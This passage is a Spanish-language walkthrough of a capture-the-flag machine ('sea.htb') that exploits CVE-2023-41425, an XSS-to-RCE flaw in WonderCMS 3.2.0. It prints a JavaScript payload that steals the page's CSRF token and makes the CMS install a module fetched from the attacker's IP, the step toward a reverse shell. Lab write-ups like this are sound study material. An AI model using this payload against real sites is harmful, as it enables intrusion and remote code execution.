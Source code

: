 ![imagen](https://github.com/user-attachments/assets/5e2c2bfd-98e3-4123-8d9b-b8bd16562c93)

Podría dirigirme a github y buscar el usuario turboblack, pero antes que nada supongo que si hay un archivo LICENSE deberá de existir un archivo README.md

![imagen](https://github.com/user-attachments/assets/4012b4b5-08d7-45da-9235-f9e92d2e90d3)

> Sabiendo que es WonderCMS y que la versión es 3.2.0 puedo buscar información sobre posibles vulnerabilidades existentes
{: .prompt-info }

## Vulnerability analysis

### CVE-2023-41425 (WonderCMS Remote Code Execution)

Una pequeña búsqueda en internet me permite dar con la vulnerabilidad CVE-2023-41425, se trata de un Cross-Site-Scripting que permite a un atacante ejecutar código arbitrario a través de un script malicioso cargado en el componente installModule.

> La vulnerabilidad CVE-2023-41425 abarca desde WonderCMS v.3.2.0 hasta v.3.4.2
{: .prompt-info }

* [NVD Explanation CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

## Exploitation

### Abusing WonderCMS RCE Vulnerability (CVE-2023-41425)

En GitHub encuentro un repositorio sobre la vulnerabilidad CVE-2023-41425 el cual me sirven de guía para realizar la explotación de forma manual y entender como funciona todo.

* [CVE-2023-41425](https://github.com/duck-sec/CVE-2023-41425)

![imagen](https://github.com/user-attachments/assets/94691bdc-b708-470d-966e-2a04239fe728)

> Se necesita la URL donde WonderCMS está instalado y crear un archivo xss.js el cual ya se proporciona en el repositorio de GitHub
{: .prompt-info }

Analizando el exploit de Python encuentro que WonderCMS se encuentra instalado en http://sea.htb/loginURL

![imagen](https://github.com/user-attachments/assets/c6b7acb8-2036-4111-928e-85f65b68b5eb)

Descargo los archivo xss.js y main.zip, modifico el script xss.js para que se encuentre acorde a mi dirección ip y el puerto por el que quiero obtener la reverse shell.

```js
var url = "http://sea.htb/loginURL";

// Create a URL object to properly manipulate the URL
var parsedUrl = new URL(url);

// Remove the last part of the path
var urlWithoutLogBase = parsedUrl.origin + parsedUrl.pathname.split("/").slice(0, -1).join("/");

// Get the token value from the DOM
var token = document.querySelector('[name="token"]').value;

// Construct the URL for the module installation
var urlRev = urlWithoutLogBase + "/?installModule=http://10.10.14.160:8000/main.zip&directoryName=violet&type=themes&token=" + token;

var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
```